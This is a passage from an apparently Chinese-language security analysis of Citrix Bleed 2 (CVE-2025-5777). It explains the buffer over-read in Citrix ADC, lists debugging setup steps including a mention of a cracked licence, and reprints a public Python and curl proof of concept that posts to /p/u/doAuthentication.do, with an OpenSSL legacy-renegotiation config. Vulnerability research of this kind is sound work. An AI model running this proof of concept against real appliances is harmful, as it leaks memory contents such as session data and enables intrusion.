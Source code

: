 随后，ns_vpn_send_response  
 在构造 Web 响应时，直接使用了 want_to_write_len  
 作为长度参数。这种错误的长度使用，导致了超过 print_temp_rule  
 实际分配范围的内存被泄露到响应中，从而形成信息泄露漏洞。  
  
简而言之，**print_temp_rule 的最大容量为 0x10000，而 want_to_write_len 却可能远超该限制**  
，最终导致了超出缓冲区的数据被意外泄露。  
  
****  
**3. CVE-2025-5777分析**  
  
  
参考资料  
### 前期工作  
  
要对 Citrix 进行漏洞分析，有哪些前提工作，在之前的文章[2]中都有讲过，这里不详细讲解，只列一个流程：  
1. 使用正版 Citrix 或者使用临时 Crack 方案激活 Citrix。  
  
1. 配置 Citrix Gateway 或者 Citrix ADC。（证书是必选项，所以需要创建一个 HTTPS 证书）  
  
1. 要调试nsppe，需要运行命令：pb_policy -h nothing  
。  
  
1. gdbserver 目前没有使用的方法，只能使用 gdb。没有插件，可以使用 GPT 临时写插件。gdb 也只能在虚拟机的 console 中运行，在 ssh 中运行会影响程序的正常运行。所以 Citrix 虚拟机建议配置个串口。  
  
### 漏洞分析  
  
下面，我们回到CVE-2025-5777漏洞，来分析一下 Citrix Bleed 2 的漏洞成因。距离漏洞公布已经过去快一个月了，网上也有很多该漏洞的 PoC 公布[3]，如下所示：  
```
async def fetch(session, url):    full_url =f"{url}/p/u/doAuthentication.do"try:        async with session.post(full_url, data="login", proxy=proxy, ssl=False)as response:if verbose:print(f"{Fore.CYAN}[DEBUG] POST to {full_url} -> Status: {response.status}")if response.status ==200:                content = await response.read()if verbose:print(f"{Fore.CYAN}[DEBUG] Response body (first 200 bytes): {content[:200]!r}")                extract_initial_value(content)else:if verbose:print(f"{Fore.RED}[DEBUG] Non-200 status code received: {response.status}")except aiohttp.ClientConnectorError ase:print(f"{Fore.RED}[!] Connection Error: {e}")except Exception ase:print(f"{Fore.RED}[!] Unexpected Error: {e}")
```  
  
bash 版的简化 PoC 如下所示：  
```
$ OPENSSL_CONF=custom-openssl.cnf curl -v https://test.citrix.com/p/u/doAuthentication.do -d 'login'
```  
  
这里说个题外话，由于OpenSSL 从 3.x 版本开始，将安全重协商  
设为强制要求，不再默认允许不安全的旧协议重协商（legacy renegotiation）。而我测试的 Citrix ADC 不支持RFC 5746 安全重协商（Secure Renegotiation），因此需要通过配置临时开启旧式重协商支持。  
  
使用OPENSSL_CONF  
环境变量来加载自己的 openssl 配置，配置信息如下所示：  
```
openssl_conf = openssl_init[openssl_init]ssl_conf = ssl_sect[ssl_sect]system_default = system_default_sect[system_default_sect]Options = UnsafeLegacyServerConnect
```  
  
